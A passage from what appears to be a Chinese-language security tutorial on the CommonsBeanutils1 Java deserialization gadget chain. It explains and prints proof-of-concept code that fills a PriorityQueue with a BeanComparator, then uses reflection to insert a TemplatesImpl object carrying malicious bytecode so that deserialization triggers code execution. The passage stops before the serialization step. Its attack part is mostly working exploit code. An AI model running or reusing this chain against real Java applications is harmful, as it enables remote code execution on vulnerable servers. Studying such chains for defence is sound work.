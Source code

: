 ```java
final PriorityQueue<Object> priorityqueue = new PriorityQueue<Object>(2, beancomparator);
// stub data for replacement later
priorityqueue.add(1);
priorityqueue.add(1);
```

这里我们先添加了两个无害的可以比较的对象进队列中。

前文说过，`BeanComparator#compare()`中，如果this.property为空，则直接比较这两个对象。这里实际上就是对两个1进行排序。

初始化时使用正经对象，且 `property` 为空，这一系列操作是为了初始化的时候不要出错。

## 3.4 我们再用反射将 `beancomparator` 的 `property` 的值设置成恶意的 `outputProperties` ，将队列里的两个1替换成恶意的 `TemplateImpl` 对象：

```java
// 将comparator的property修改，使其在compare方法中去执行getOutputProperties
setFieldValue(beancomparator, "property", "outputProperties");
setFieldValue(priorityqueue, "queue", new Object[]{obj, obj});
```

## 3.5 完整 CommonsBeanutils poc

📒 CommonsBeanutils1.java

```java
package org.vulhub.Ser;

import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.beanutils.BeanComparator;

public class CommonsBeanutils1 {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {
        // 创建TemplateImpl
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{
                ClassPool.getDefault().get(evil.EvilTemplatesImpl.class.getName()).toBytecode()
        });
        setFieldValue(obj, "_name", "xxx");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        //实例化本篇讲的BeanComparator。BeanComparator构造函数为空时，默认的property就是空
        final BeanComparator beancomparator = new BeanComparator();
        //然后用这个comparator实例化优先队列PriorityQueue：
        final PriorityQueue<Object> priorityqueue = new PriorityQueue<Object>(2, beancomparator);
        // stub data for replacement later
        priorityqueue.add(1);
        priorityqueue.add(1);

        // 将comparator的property修改，使其在compare方法中去执行getOutputProperties
        setFieldValue(beancomparator, "property", "outputProperties");
        setFieldValue(priorityqueue, "queue", new Object[]{obj, obj});

```